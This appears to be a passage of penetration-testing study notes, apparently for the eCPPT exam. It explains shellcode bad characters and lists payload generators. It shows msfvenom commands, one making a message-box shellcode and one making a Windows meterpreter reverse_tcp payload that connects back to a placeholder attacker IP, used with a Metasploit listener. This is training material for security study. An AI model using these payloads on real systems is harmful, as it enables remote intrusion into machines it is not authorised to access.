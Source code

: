 > We should get a shellcode null-free

```
Badchars are not always \x00, they can appear in other hexadecimal values.
There are many cases that we cant use them when developing our exploit.
We may need to account for the newline '( \n )' or ' (\x0A in hex) ' character for instance;
```

## Shellcode and Payload Generators

tools:
```
	msfvenom - https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
	the backdoor factory - https://github.com/secretsquirrel/the-backdoor-factory
	veil-framework - https://github.com/Veil-Framework/
```

### MSFVENOM
```
msfvenom --list payloads
msfvenom -p windows/messagebox --payload-options
```

#### the usage depends on what we want
establish an interactive connection: use a *meterpreter payload*
run a single command: use a *cmd payload*
spawns a message box : *windows/messagebox*
```
- example 1 : generate a messagebox shellcode with msfvenom

msfvenom -p windows/messagebox TEXT="My first msfvenom shellcode" -f c -a x86 --platform win

	-p = windows/messagebox : sets the payload to use
	TEXT="..." : set the text of the messagebox
	-f c : output format of the shellcode
	-a x86 : architecture
	--platform win : target platform For the shellcode
```

-----------------------------------------------------------------------------------------------------

example 2 : reverse interactive meterpreter session
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> lport=<port> -f c

	-p = windows/meterpreter/reverse_tcp = tell msfvenom the payload to use
	LHOST=<host IP> : sets the IP address For the connect back of the payload
	LPORT=<port> : sets the port For the connect back of the payload
	-f c : the output format of the shellcode
```

> We should open a listener in msfconsole > exploit/multi/handler

![Alt text](/assets/images/posts/2023-11-19-ecppt/6.png){: .align-center}
